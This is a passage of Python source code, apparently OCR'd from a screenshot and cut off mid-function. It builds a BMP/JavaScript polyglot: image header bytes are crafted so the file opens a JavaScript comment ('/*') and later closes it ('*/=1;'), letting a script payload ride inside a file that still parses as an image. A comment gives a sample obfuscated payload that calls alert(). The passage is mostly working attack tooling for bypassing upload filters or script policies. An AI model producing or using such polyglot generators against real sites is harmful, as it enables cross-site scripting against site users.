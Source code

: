         """

        num = "%x" % num

        if len(num) % 2:

                num = '0'+num

        return num.decode('hex')

#---------------------------------------------------------

#Example payload: "var _0xe428=[\""+ b'\x48\x65\x6C\x6C\x6F\x20\x57\x6F\x72\x6C\x64' + "\"]

#;alert(_0xe428[0]);"

def _generate_and_write_to_file(payload, fname):

        """

        Generates a fake but valid BMP within scriting

        """

        f = open(fname, "wb")

        header = (b'\x42\x4D'  #Signature BM

                                                b'\x2F\x2A\x00\x00' #Header File size, but encoded as /* &lt;-- Yes it's a valid header 

                                                b'\x00\x00\x00\x00' #Reserved

                                                b'\x00\x00\x00\x00' #bitmap data offset

                                                b''+ _hexify( len(payload) ) + #bitmap header size

                                          b'\x00\x00\x00\x14' #width 20pixel .. it's up to you

                                                b'\x00\x00\x00\x14' #height 20pixel .. it's up to you

                                          b'\x00\x00' #nb_plan  

                                                b'\x00\x00' #nb per pixel

                                                b'\x00\x10\x00\x00' #compression type

                                                b'\x00\x00\x00\x00' #image size .. its ignored

                                                b'\x00\x00\x00\x01' #Horizontal resolution

                                                b'\x00\x00\x00\x01' #Vertial resolution

                                                b'\x00\x00\x00\x00' #number of colors

                                                b'\x00\x00\x00\x00' #number important colors

                                                b'\x00\x00\x00\x80' #palet colors to be complient

                                                b'\x00\x80\xff\x80' #palet colors to be complient

                                                b'\x80\x00\xff\x2A' #palet colors to be complient

                                                b'\x2F\x3D\x31\x3B' #*/=1;

                                                )
